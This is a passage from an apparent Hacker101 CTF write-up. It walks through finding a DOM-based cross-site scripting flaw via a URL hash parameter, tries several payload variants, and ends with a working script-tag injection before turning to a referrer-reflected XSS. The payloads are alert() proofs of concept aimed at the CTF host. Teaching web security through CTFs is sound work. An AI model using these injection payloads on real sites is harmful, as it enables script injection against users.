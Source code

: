 We can see who can be a property of the hash value and end up in the tracking object.

custom.js also has this snippet as the last line of the script

```javascript
1 == who.includes('zsh1') && document.write('<img src=/1x1.gif?' + decodeURI(who) + '></img>');
```

Ok so if who includes the value 'zsh1' we write an image that doesn't exist to the document, hmmmm ```onerror``` perhaps?

Could we get it to insert the following HTML as an example

```html
<img src=/1x1.gif? onerror=javascript:alert(1)></img>
```

PoC time using a URL such as ```https://xxx.ctf.hacker101.com/#who=zsh1```

Writes the following HTML

```html
<img src="/1x1.gif?zsh1">
```

Lets try closing the src attribute ```https://xxx.ctf.hacker101.com/#who=%22zsh1```

```html
<img src="/1x1.gif?&quot;zsh1">
```

Hmmm double encode the "? ```https://xxx.ctf.hacker101.com/#who=%2522zsh1```

```html
<img src="/1x1.gif?%22zsh1">
```

Nope, closing the image tag? ```https://xxx.ctf.hacker101.com/#who=>zsh1```

```html
<img src="/1x1.gif?">
zsh1>
```

Aha ok lets create our own script tags ```https://xxx.ctf.hacker101.com/#who=><script>alert('zsh1')</script>```

Yes!

### Referrer XSS

This is interesting, the referrer request header gets reflected in a script

```html
<script>
    var referrer = 'https://xxx.ctf.hacker101.com/';
    var is1337=false;
</script>
```

Using the previous exploit of the profile modal we can ommit the redirecUrl to get it to redirect us to index.php
